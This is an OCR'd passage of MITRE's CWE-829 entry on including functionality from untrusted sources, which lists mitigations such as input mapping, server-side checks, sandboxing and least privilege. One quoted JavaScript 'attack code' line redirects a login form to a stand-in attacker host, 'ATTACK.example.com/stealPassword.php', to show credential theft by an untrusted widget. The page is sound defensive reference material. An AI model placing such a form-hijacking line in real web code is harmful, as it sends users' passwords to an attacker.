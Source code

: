 When the set of acceptable objects, such as filenames or URLs, is limited or known, create a mapping from a set of fixed input
values (such as numeric IDs) to the actual filenames or URLs, and reject all other inputs.
For example, ID 1 could map to "inbox.txt" and ID 2 could map to "profile.txt". Features such as the ESAPI
AccessReferenceMap [ REF-45 ] provide this capability .
Phase: Architecture and Design
For any security checks that are performed on the client side, ensure that these checks are duplicated on the server side, in
order to avoid CWE-602 . Attackers can bypass the client-side checks by modifying values after the checks have been
performed, or by changing the client to remove the client-side checks entirely . Then, these modified values would be submitted
to the server .






(attack code) Example Language: JavaScript 
...Weather widget code....
document.getElementById('loginForm').action = "ATTACK.example.com/stealPassword.php";3/7/24, 3:11 PM CWE - CWE-829: Inclusion of Functionality from Untrusted Control Sphere (4.14)
https://cwe.mitre.org/data/deﬁnitions/829.html 3/5Phases: Architecture and Design; Operation
Strategy: Sandbox or Jail
Run the code in a "jail" or similar sandbox environment that enforces strict boundaries between the process and the operating
system. This may ef fectively restrict which files can be accessed in a particular directory or which commands can be executed
by the software.
OS-level examples include the Unix chroot jail, AppArmor , and SELinux. In general, managed code may provide some
protection. For example, java.io.FilePermission in the Java SecurityManager allows the software to specify restrictions on file
operations.
This may not be a feasible solution, and it only limits the impact to the operating system; the rest of the application may still be
subject to compromise.
Be careful to avoid CWE-243 and other weaknesses related to jails.
Effectiveness: Limited
Note: The ef fectiveness of this mitigation depends on the prevention capabilities of the specific sandbox or jail being used and
might only help to reduce the scope of an attack, such as restricting the attacker to certain system calls or limiting the portion of
the file system that can be accessed.
Phases: Architecture and Design; Operation
Strategy: Environment Hardening
Run your code using the lowest privileges that are required to accomplish the necessary tasks [ REF-76 ]. If possible, create
isolated accounts with limited privileges that are only used for a single task. That way , a successful attack will not immediately
give the attacker access to the rest of the software or its environment. For example, database applications rarely need to run as
the database administrator , especially in day-to-day operations.
Phase: Implementation
Strategy: Input V alidation
Assume all input is malicious. Use an "accept known good" input validation strategy , i.e., use a list of acceptable inputs that
strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something
that does.
When performing input validation, consider all potentially relevant properties, including length, type of input, the full range of
acceptable values, missing or extra inputs, syntax, consistency across related fields, and conformance to business rules. As an